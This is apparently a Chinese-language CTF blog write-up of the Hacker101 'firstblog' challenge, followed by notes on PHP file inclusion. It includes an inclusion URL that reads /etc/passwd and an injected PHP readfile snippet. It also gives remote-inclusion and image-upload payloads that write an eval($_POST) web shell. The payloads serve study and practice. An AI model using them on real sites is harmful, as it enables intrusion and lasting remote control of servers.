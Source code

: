 ```yaml
---
title: hacker101-firstblog
date: 2019-07-08 23:45:35
tags: 
category: walkthrough
---
```

<!-- more -->

# walkthrough

首先查看 html 源代码，可以发现如下代码：

```
<a href="?page=admin.auth.inc">Admin login</a>
```

说明存在php文件包含漏洞，打开

```
http://35.190.155.168/97b7287bc0/?page=admin.auth.inc
```

需要进行登录，这个时候需要考虑越权的问题

```
http://35.190.155.168/97b7287bc0/?page=admin.inc
```

成功获取第一个 flag。从环境中大概可以了解到，作者使用 php 作为一个模板渲染，渲染是发生在 server 端，既然使用 php 渲染，那么在 comment 里面应该就可以执行 php 代码，于是插入以下代码，获取到第二个 flag

```
<? php echo readfile('index.php'); ?>
```

最后打开

```
http://35.190.155.168/97b7287bc0/?page=http://localhost/index
```

查看源代码，成功获取第三个 flag



# 知识点

## php 包含文件漏洞

 ### 本地包含

```
http://35.190.155.168/97b7287bc0/?page=http://localhost/index
http://35.190.155.168/97b7287bc0/?page=/etc/passwd
```

### 远程包含

远程服务器新建一个 test.txt 文件如下：

```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[params]);?>")?>
```

然后打开

```
http://xxx.xxx.com?page=http://xxx.xxx.com/test.txt
```

可以在服务器上产生一个 shell.php 文件 【待实验】

### 本地配合上传文件

上传一个图片木马a.jpg，内容为：

```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[tzc]);?>")?>
```

访问URL：*http://www.xxx.com/index.php?page=./a.jpg*在本地生成shell.php。



# 参考

https://thief.one/2017/04/10/2/

[https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/](https://chybeta.github.io/2017/10/08/php文件包含漏洞/)